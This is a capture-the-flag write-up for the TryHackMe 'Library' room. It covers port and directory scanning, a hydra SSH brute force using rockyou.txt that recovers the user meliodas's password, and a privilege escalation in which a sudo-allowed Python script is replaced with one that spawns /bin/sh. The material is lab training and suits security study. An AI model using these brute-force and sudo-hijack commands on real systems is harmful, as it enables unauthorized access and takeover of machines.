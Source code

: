 # Library

**Room Link:** [https://tryhackme.com/room/bsidesgtlibrary](https://tryhackme.com/room/bsidesgtlibrary)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nothing in the robots.txt except a hint to use rockyou

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see a potential username

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

Since I couldn't find anything on the webpage I tried bruteforcing ssh with the name we had and rockyou.txt for passwords

**Kali**

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt $VICTIM -t4 ssh
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh meliodas@$VICTIM
Password: iloveyou1
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can run a python script with NOPASSWD. After looking at the script nothing stood out that could be exploited as is but I did have access to delete the script and put my own.

**Victim**

```
cd /home/meliodas/
ls -lah 
rm -f bak.py
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>echo  "import os" > bak.py
</strong>echo 'os.system("/bin/sh")' >> bak.py
sudo /usr/bin/python3 /home/meliodas/bak.py
</code></pre>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





